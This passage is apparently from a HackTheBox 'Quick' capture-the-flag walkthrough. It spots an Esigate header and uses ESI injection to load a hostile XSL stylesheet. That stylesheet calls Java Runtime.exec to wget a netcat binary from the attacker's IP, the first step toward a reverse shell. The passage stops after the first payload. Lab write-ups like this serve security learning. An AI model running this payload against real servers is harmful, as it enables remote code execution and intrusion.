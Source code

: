 ![Quick](/assets/img/post/hackthebox/quick/8.png)

Let's check for Headers

```
HTTP/1.1 200 OK
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Via: 1.1 localhost (Apache-HttpClient/4.5.2 (cache))
X-Powered-By: Esigate
Content-Length: 6214
```
We get an interesting Header `X-Powered-By: Esigate`

Therefore we can you ESI Injection. You can find an amazing article on it [Here](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)

## RCE thorugh XSLT:~$


> <esi:include src="http://website.com/data/news.xml" stylesheet="/news_template.xsl"></esi:include>

Therefore we can inject xsl file using ticket functionaltiy

Let's create 3 different xsl files 

1. For downloading nc on machine
2. Changing Permissions of nc
3. Triggering Reverse Shell

Launch a Python server on your machine where the files are located 

Payload of all the files

Wget

```bash
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.166:8000/nc -O vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
```